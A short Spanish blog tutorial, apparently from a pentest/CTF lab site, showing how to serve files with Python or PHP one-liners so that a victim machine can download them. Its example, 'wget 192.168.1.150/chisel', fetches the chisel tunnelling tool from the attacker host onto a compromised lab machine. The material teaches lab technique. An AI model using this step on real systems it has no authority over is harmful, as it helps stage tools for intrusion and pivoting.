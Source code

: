 ```yaml
---
title       : "Creación de servidor local"
excerpt:      "Realizaremos una pequeña explicación del método que utilizamos para transferir ficheros entre la máquina atacante y la víctima."
header:
  teaser: /assets/images/tty/prev.png
  teaser_home_page: true
  icon: /assets/images/TUX.png
classes		: wide
categories:
  - Sistemas
tags:  
  - Python
  - PHP
  - Howto
---
```


![](/assets/images/tty/prev.png){: .align-center}

Realizaremos una pequeña explicación del método que utilizamos para transferir ficheros entre la máquina atacante y la víctima.

Esto es muy útil en varios escenarios, pero un ejemplo típico es cuando queremos subir un binario a la máquina víctima. En primer lugar lo que necesitamos es colocarnos en el directorio donde tenemos los ficheros que queremos transferir. Una vez ahí, existen 2 formas de crear un servidor muy usadas:

1. Python: `python3 -m http.server 80` 
2. PHP: `php -S localhost:80`

> Para el ejemplo hemos utilizado el puerto 80, pero si está siendo usado, o por cualquier otro motivo no se puede utilizar, se cambia.

Una vez hemos creado este servidor, tendremos nuestros contenidos accesibles introduciendo nuestra IP local en la máquina víctima, por tanto siguiendo con el ejemplo, si queremos transferir chisel:

`wget 192.168.1.150/chisel` 

![](/assets/images/principle/copychisel.png){: .align-center}
Captura real tomada realizando la máquina propia Principle

Pues con esto ya estaría, basta decir que también se puede realizar a la inversa si la máquina víctima cuenta con Python y/o PHP.
